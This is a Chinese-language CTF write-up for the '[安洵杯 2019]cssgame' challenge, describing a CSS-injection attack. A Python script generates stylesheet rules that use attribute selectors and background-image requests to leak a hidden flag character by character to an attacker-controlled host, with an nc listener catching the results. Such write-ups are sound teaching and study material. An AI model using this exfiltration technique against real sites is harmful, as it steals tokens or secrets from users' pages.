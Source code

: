 ```yaml
---
title: "[安洵杯 2019]cssgame"
date: 2020-04-17
tags: [CTF, WP,CSS injection]
categories:
- [CTF, WP]
comments: false
---
```


# [安洵杯 2019]cssgame

## 分析

很有意思的CSS injection

大致的思路就是通过传入一个外部链接的css,让flag.html解析,

外部链接的css写入如下内容

<!-- more -->

```
input[name=flag][value^="f"] ~ * {background-image: url("http://x.x.x.x/?flag=f");}
```

然后对flag值进行逐位判断，如果正确则发送数据给vps

## payload

**exp**

```
import sys

f = open("poc.css", "w")
dic = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}-"
for i in dic:
    flag = sys.argv[1] + i
    payload = "input[name=flag][value^=\"" + flag + "\"] ~ * {background-image: url(\"http://174.0.31.242:8080/?" + flag + "\");}"
    f.write(payload + "\n")
f.close()
```

在buu申请一台小号linux lab,然后在/var/www/html/目录写入以上exp,运行一下脚本,nc开启监听

然后就开始将`css=http://174.0.31.242/poc.css`post给`crawl.html`,在nc监听中可以得到flag,然后手动改flag的值,生成不同的poc.css,逐位爆破可以得到flag

[![mark](https://blogjpg.yanmy.top/blog/20200417/7xPSKY9xQYDl.png?imageslim)](https://blogjpg.yanmy.top/blog/20200417/7xPSKY9xQYDl.png?imageslim)

[![mark](https://blogjpg.yanmy.top/blog/20200417/pBpeVx5eKtNN.png?imageslim)](https://blogjpg.yanmy.top/blog/20200417/pBpeVx5eKtNN.png?imageslim)

## 总结

以上方法还是有点麻烦的，看看官方wp，发现有更好的办法，学一手，INS

## Reference

[[安洵杯 2019\]cssgame wp](https://nikoeurus.github.io/2019/11/30/2019安询杯-Web/#cssgame)

[[安洵杯 2019\]cssgame 官方WP](https://xz.aliyun.com/t/6911#toc-12)